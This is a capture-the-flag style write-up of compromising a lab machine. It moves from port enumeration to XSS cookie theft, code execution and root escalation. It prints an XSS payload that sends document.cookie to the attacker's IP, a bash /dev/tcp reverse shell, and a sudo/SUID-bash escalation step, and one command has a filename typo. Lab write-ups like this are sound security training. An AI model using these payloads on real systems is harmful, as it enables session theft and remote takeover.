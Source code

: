 # Enumeration
There are two ports open:
```
PORT     STATE SERVICE
22/tcp   open  ssh
5000/tcp open  upnp

```
Checking port 5000 there is a website and ther is a support section that might be susceptible to XSS
![](attachment/73d82d4ecb5068add7298d3a31f8834c.png)
Now trying to get the cookie as there is a cookie called is_admin but it is hashed.
![](attachment/86e4e5ac5f77610556a32c7906488dfc.png)
Now running a webserver on host and using the following XSS payload:
```html
<img src=x onerror=fetch('http://10.10.14.37/'+document.cookie);>
```
We get the cookie value:
![](attachment/bc95e7a9393251cdae4ee7e38cff04d1.png)
Using gobuster discovered /dashboard

Now using this cookie we can access /dashboard
![](attachment/d3a2475335f1cd92780d05443ef21ebf.png)
There is a code execution here
Now writing a shell.sh.
```bash
#!/bin/bash
bash -i >& /dev/tcp/10.10.14.37/9005 0>&1
```
And using burpsuite to intercept:
![](attachment/4108bdd8ee6868856918d0d93df01cfa.png)
Now we get a shell![](attachment/8f45c417fadf086fbde0efd39f37c3e3.png)
We have sudo privilege over syscheck.
Now checking the application with strings.
![](attachment/81bfce9bb760116a81e11c1521e883b4.png)
It is calling initdb.sh
We can add something malicious in initdb.sh
```
echo "chmod u+s /bin/bash" > initdb.s
chmod +x initdb.sh
```

Now can run
```
sudo /usr/bin/syscheck
/bin/bash -p
```
And we get a root shell:
![](attachment/3cf96077b5fb778e006bd48e3801dcaa.png)